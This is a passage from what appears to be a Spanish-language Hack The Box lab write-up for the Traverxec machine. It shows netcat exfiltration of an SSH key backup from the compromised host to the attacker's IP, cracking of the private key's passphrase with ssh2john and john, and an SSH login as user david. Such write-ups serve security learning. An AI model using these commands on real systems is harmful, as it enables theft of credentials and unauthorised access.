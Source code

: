 Procedemos a enviar el archivo `backup-ssh-identity-files.tgz` con netcat a nuestra máquina. 

Para realizar lo anterior, primero iniciamos una sesión en netcat y nos quedamos en modo escucha de la siguiente forma

```bash
┌─[✗]─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvp 9091 > backup-ssh-identity-files.tgz
listening on [any] 9091 ...
```

Y en la máquina que estamos atacando debemos transferir el archivo de la siguiente forma

```bash
www-data@traverxec:/usr/bin$ nc 10.10.14.21 9091 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
```

Una vez ya tengamos el archivo `backup-ssh-identity-files.tgz` en nuestra máquina, vamos a descomprimirlo para ver su contenido

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]                      
└──╼ $gunzip backup-ssh-identity-files.tgz 
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]        
└──╼ $ls                         
backup-ssh-identity-files.tar  cve-2019-16278.py  linpeas.sh       
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]         
└──╼ $tar xfv backup-ssh-identity-files.tar                                                   
home/david/.ssh/                 
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa           
home/david/.ssh/id_rsa.pub

```

Procedemos a descifrar la contraseña usando `john` de la siguiente manera

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $/usr/share/john/ssh2john.py id_rsa > david.key
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt david.key 
Will run 2 OpenMP threads
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (/home/nicolasmira101/Documents/HTB/Traverxec/home/david/.ssh/id_rsa)

```

Ahora, nos vamos a conectar al usuario david vía SSH

```bash
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $ssh -i id_rsa david@traverxec.htb
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'traverxec.htb,10.10.10.165' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

```
